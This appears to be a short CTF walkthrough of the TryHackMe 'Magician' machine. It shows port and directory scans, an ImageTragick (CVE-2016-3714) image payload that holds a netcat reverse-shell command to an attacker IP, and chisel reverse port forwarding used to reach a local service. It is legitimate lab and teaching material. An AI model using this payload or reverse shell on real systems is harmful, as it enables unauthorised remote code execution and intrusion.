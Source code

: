 ```yaml
---

title: Walkthrough - Magician
published: true
---
```


Tags: CVE-2016-3714, chisel, port forward, tunnel
Description: Boot2root machine for FIT and bsides guatemala CTF.
Difficulty: Easy
URL: [https://tryhackme.com/room/glitch](https://tryhackme.com/room/glitch)

* * *

## Notes

- `sudo nmap -Pn -sS -T4 -p- magician -vvv`

```
PORT     STATE SERVICE         REASON
21/tcp   open  ftp             syn-ack ttl 61
8080/tcp open  http-proxy      syn-ack ttl 61
8081/tcp open  blackice-icecap syn-ack ttl 61
```

Visiting the website we have a `Whitelabel Error Page`

![](/assets/magician01.png)

- `gobuster dir -u http://magician:8080 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -t 100` yeilds us a few results

```
/files                (Status: 200) [Size: 2]
/upload               (Status: 405) [Size: 0]
/error                (Status: 500) [Size: 105]
```

Port 8081 is where we find the magician site.

- create a shell.png with the following

```
push graphic-context
encoding "UTF-8"
viewbox 0 0 1 1 
affine 1 0 0 1 0 0
push graphic-context
image Over 0,0 1,1 '|mkfifo /tmp/ian; nc 10.2.127.225 6666 0</tmp/ian | /bin/sh >/tmp/ian 2>&1; rm /tmp/ian '
pop graphic.context
pop graphic.context
```

- setup pwncat listener and upload shell to recieve listener

* * * 

## user.txt?

![](/assets/magician02.png)

* * * 

## root.txt?

```
(remote) magician@magician:/home/magician$ cat the_magic_continues 
The magician is known to keep a locally listening cat up his sleeve, it is said to be an oracle who will tell you secrets if you are good enough to understand its meows.
```

- `netstat -l` we can see a connection on port 6666
- upload `chisel` via http or pwncat
- now to portforward on attacker machine `chisel server --reverse --port 9001`
- and on target machine `./chisel client 10.2.127.225:9001 R:9002:127.0.0.1:6666`
- we can now access the magic cat on `http://localhost:9002/` and cat root.txt
- decode it!

* * * 

